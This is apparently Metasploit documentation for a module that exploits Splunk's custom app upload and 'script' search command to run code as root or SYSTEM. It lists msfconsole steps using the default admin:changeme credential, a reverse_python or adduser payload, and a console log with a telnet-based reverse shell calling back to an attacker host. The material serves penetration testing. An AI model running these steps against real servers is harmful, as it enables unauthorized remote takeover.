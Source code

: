 ## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the \'script\' search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk. Note that the Splunk web interface
runs as SYSTEM on Windows, or as root on Linux by default. This module has been
tested successfully against Splunk 5.0, 6.1, 6.1.1 and 7.2.4.
Version 7.2.4 has been tested successfully against OSX as well.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET TARGET 1```
  5. Do: ```SET RHOST 192.168.1.1```
  6. Do: ```SET USERNAME admin```
  7. Do: ```SET PASSWORD changeme```
  
  8. If targeting linux or macos set proper payload
   * ```SET TARGET [1|3]```
   * ```set payload cmd/unix/reverse_python```
   
     If targeting windows set proper payload
   * ```SET TARGET 2```
   * ```set payload cmd/windows/adduser```
  9. You should get a reverse shell on port 4444 via the predefined handler.

## External Demo
* [First PoC](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html) <br>
* [Metasploit module how-to](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)<br>
* [SPLUNK API](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)<br>

## Options

  **EnableOverwrite**
  Overwrites an app of the same name. Needed if you change the app code in the tgz.
  Is not enabled by default.

## Scenarios

### Testing against 7.2.4 running on OSX

  Given admin credentials we can upload the custom app to SPLUNK, which will provide us with a reverse shell, triggered by the 'search' field API.

  ```
msf5 exploit(multi/http/splunk_upload_app_exec) >
msf5 exploit(multi/http/splunk_upload_app_exec) > set RHOST 172.16.165.1
RHOST => 172.16.165.1
msf5 exploit(multi/http/splunk_upload_app_exec) > set password splunksplunk
password => splunksplunk
msf5 exploit(multi/http/splunk_upload_app_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Splunk >= 7.2.4 / Linux
   2   Splunk >= 7.2.4 / Windows
   3   Splunk >= 7.2.4 / OSX
   4   Splunk >= 5.0.1 / Linux
   5   Splunk >= 5.0.1 / Windows


msf5 exploit(multi/http/splunk_upload_app_exec) > set target 3
target => 3
msf5 exploit(multi/http/splunk_upload_app_exec) > exploit

[*] Started reverse TCP double handler on 172.16.165.206:4444
[*] Using command: sh -c '(sleep 3733|telnet 172.16.165.206 4444|while : ; do sh && break; done 2>&1|telnet 172.16.165.206 4444 >/dev/null 2>&1 &)'
[*] Authenticating...
[*] Fetching state token from /en-US/manager/appinstall/_upload
[*] Uploading file upload_app_exec.tgz
[+] upload_app_exec successfully uploaded
[*] Invoking script command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8kNbt70jYB3aJKPm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n8kNbt70jYB3aJKPm\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.165.206:4444 -> 172.16.165.1:51512) at 2019-03-17 22:12:33 +0100
  ```
